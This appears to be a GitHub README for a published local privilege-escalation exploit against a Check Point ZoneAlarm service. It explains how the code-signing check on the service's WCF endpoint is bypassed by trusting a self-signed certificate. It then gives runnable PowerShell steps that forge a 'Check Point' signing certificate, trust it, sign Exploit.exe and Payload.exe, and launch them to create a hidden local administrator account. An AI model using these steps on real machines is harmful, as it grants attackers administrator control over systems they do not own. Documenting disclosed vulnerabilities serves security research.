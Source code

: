 # ZoneAlarmExploit by Illumant

This exploit abuses a WCF service endpoint in ZoneAlarm antivirus by Check Point. The endpoint is meant to be triggered by other Check Point software to launch installation binaries with elevated privileges. 

An attempt to lock down the endpoint was made by checking that any WCF client interacting with the endpoint is running in a process code-signed by Check Point. Matt Graeber pointed out in [this article](https://posts.specterops.io/code-signing-certificate-cloning-attacks-and-defenses-6f98657fc6ec) that on Windows "non-admin users are able to trust root CA certificates", making it possible to use a self-signed cert to bypass this check. The vulnerable endpoint also checks that the binary it is launching is signed by Check Point, but this can be bypassed in the same manner.

A detailed write-up can be found [here](http://muffsec.com/blog/?p=401).

# Using the Exploit

First install a vulnerable version of ZoneAlarm. Two installation binaries can be found in the "Vulnerable Software" directory of this repository. Either should work, however we have not tested to see if they will autoupdate to a patched version during the installation process. Once the software is installed wait to see that the "SBACipollaSrvHost.exe" service is running. This may take some time even after the install appears to be complete.

The guide for using this exploit is designed for Windows 10 and up. This is because the powershell cmdlets used for working with the self-signed certificate are not available on previous versions of Windows. However, this does not mean that the attack would not work on earlier version.

1. open powershell
2. change directories to the `Release` folder of this repo
3. run the following commands:

        $cert = New-SelfSignedCertificate -certstorelocation cert:\CurrentUser\my -Subject "CN=Check Point Software Technologies Ltd." -Type CodeSigningCert
        Export-Certificate -Type CERT -FilePath fakeCert.cer -Cert $cert
        Import-Certificate -FilePath fakeCert.cer -CertStoreLocation Cert:\CurrentUser\Root\
        Set-AuthenticodeSignature -Certificate $cert -FilePath Exploit.exe
        Set-AuthenticodeSignature -Certificate $cert -FilePath Payload.exe
        .\Exploit.exe

4. run `net localgroup administrators` to see that a new local admin user, `ZoneAlarmExploit`, has been created. 
